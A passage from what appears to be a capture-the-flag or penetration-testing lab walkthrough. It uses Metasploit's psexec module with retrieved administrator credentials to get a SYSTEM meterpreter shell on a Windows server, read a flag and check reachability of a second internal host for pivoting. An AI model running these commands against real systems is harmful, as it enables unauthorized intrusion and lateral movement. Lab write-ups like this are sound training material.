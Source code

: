 We have successfully retrieved valid passwords for all three users.

### Now, we can use the Metasploit framework and run the

psexec exploit module to gain the meterpreter shell using the administrator user valid password.

Microsoft Windows Authenticated User Code Execution

Let's start the Metasploit framework and exploit it!

```bash
# Note: If the exploit won't give you a meterpreter session. Try again!

msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS target_ip_local
set SMBUser administrator
set SMBPass password1
exploit
```

Success!. We have received a meterpreter session.

### Now, we will discover target machine information, e.g., current user, system information, arch, etc.

```bash
getuid
sysinfo
```

We notice that target is running a windows server, and we have received a meterpreter session with "SYSTEM" (or "NT Authority") privileges on the machine.

### Let's read the flag.

```bash
cat C:\\Users\\Administrator\\Documents\\FLAG1.txt
#We have found the FLAG1:
8de67f44f49264e6c99e8a8f5f17110c
```

### Let's check if we can access target_ip from the compromised host.

Before, ping to the second target machine from the compromised host. We need to know the IP address for the target_ip host.

Remember, when we did ping to both the targets and discovered IP addresses of these target machines:

1. target_ip.local: 10.0.17.62

2. target_ip : 10.0.22.69

Now, let's ping to the 10.0.22.69 and verify that it is reachable from the second machine.

```powershell
shell
ping 10.0.22.69

#We can access the target_ip machine, i.e., 10.0.22.69.
```

